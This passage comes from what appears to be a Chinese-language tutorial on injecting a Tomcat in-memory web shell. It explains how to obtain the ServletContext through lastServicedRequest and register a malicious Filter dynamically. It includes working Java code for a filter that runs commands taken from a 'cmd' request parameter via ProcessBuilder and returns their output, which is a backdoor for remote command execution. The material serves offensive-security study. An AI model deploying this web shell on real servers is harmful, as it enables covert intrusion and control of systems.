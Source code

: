 ### **第二步**

通过 lastServicedRequest 和 lastServicedResponse 获取 request 和 response，然后利用 request 获取到 servletcontext 然后动态注册 Filter(由于是动态注册 filter 内存马来实现的，所以在后边的操作大致上与 filter 内存马的注册一致，后边会对比着来看)

**获取上下文环境**

在常规 filter 内存马中，是通过 request 请求获取到的 ServletContext 上下文

```plain
ServletContext servletContext = req.getSession().getServletContext();
```

而这里将 request 存入到了`lastServicedRequest`中，因此直接通过`lastServicedRequest`获取 ServletContext 即可

```plain
ServletContext servletContext = servletRequest.getServletContext();
```

**filter 对象**

其次构造恶意代码部分有些出处

在常规 filter 内存马中，是通过 new Filter 将 doFilter 对象直接实例化进去：

```plain
Filter filter = new Filter() {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
            byte[] bytes = new byte[1024];
            //Process process = new ProcessBuilder("bash","-c",req.getParameter("cmd")).start();
            Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
            int len = process.getInputStream().read(bytes);
            servletResponse.getWriter().write(new String(bytes,0,len));
            process.destroy();
            return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }

    @Override
    public void destroy() {

    }
};
```

而这里并不能直接将初始化的这三个方法 (init、doFilter)，包含到 Filter 对象中
